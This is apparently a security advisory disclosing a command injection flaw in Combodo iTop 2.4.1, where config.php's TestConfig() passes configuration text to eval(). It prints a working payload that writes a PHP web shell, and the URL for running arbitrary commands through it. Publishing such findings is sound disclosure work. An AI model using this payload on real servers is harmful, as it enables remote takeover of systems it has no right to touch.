 Product: iTop
Vendor: Combodo
Vulnerable Version(s): 2.4.1 and probably prior
Tested Version: 2.4.1
Vulnerability Type: Command injection
Risk Level: High
CVSSv3 Base Score: 8.4 [CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:C/C:H/I:H/A:H]
Discovered by : Ayoub ARBAH 
 
-----------------------------------------------------------------------------------------------
 
The source code file http://[host]/itop/web/env-production/itop-config/config.php contains a function called TestConfig() that calls the vulnerable function eval().

To exploit this vulnerability the attacker must have the administrator priviledge and add the folowing script to the plateform configuration at this URL : http://[host]/itop/web/env-production/itop-config/config.php
shell_exec('echo "<pre><?php echo shell_exec($_GET[\'cmd\']);?></pre>" > backdoor.php');

After applying the new configuration, the attacker can execute arbitirary commands by accesing the folowing link :
http://[host]/itop/web/env-production/itop-config/backdoor.php?cmd=[command]
